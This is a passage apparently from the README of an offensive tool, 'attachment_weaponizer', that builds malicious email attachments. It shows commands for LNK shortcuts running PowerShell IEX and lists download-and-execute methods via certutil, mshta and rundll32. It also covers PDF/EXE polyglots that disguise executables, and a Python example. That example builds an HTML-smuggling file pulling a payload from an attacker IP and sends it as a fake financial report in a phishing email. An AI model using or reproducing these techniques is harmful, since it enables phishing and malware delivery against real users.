 ### 5. LNK Files

Create Windows shortcut files that execute commands:

```bash
python -m attachment_weaponizer lnk "powershell -c IEX(...)"
```

**Why LNK files work:**
- Trusted file type (Windows shortcuts)
- Can execute arbitrary PowerShell/CMD
- Icon can hide true purpose
- Often bypass filters

**Common patterns:**
- PowerShell download and execute
- Certutil for file download
- MSHTA for HTA execution
- Rundll32 for DLL loading

### 6. Polyglot Files

Files valid as multiple formats (e.g., PDF and EXE):

```bash
python -m attachment_weaponizer polyglot payload.exe --output document.pdf
```

**How polyglots work:**
- Different parsers read files differently
- PDF ignores data after %%EOF
- PE executable looks for MZ header
- Craft file valid for both formats

**Advanced technique** - requires deep file format knowledge

## Integration Examples

### With Phishing Framework

```python
from attachment_weaponizer import AttachmentWeaponizer
from phishing_framework import PhishingFramework

# Create weaponized attachment
weaponizer = AttachmentWeaponizer()
html = weaponizer.create_html_smuggling(
    'http://10.10.14.5/payload.exe',
    'quarterly_report.html'
)

# Attach to phishing email
phishing = PhishingFramework()
phishing.send_email(
    to='target@example.com',
    subject='Q4 Financial Report',
    body='Please review the attached report',
    attachment=html.output_path
)
```
